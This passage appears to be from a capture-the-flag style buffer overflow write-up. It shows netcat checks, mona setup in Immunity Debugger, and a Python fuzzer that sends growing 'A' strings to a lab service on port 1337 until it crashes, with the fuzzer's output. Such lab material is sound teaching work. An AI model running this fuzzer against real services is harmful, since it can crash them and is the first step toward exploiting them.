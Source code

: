The state has now changed to running, we can use netcat to verify it is listening:

![](images/Pasted%20image%2020250529120948.png)

Everything's right for now, let's proceed, what we need to do now is configure mona, in Immunity’s command bar (bottom), run:

```
!mona config -set workingfolder c:\mona\%p
```

![](images/Pasted%20image%2020250529121058.png)

![](images/Pasted%20image%2020250529121115.png)

Now, on our linux machine we need to create a file named `fuzzer.py` with this contents:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.199.216"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Let's run it now:

```
python3 fuzzer.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
```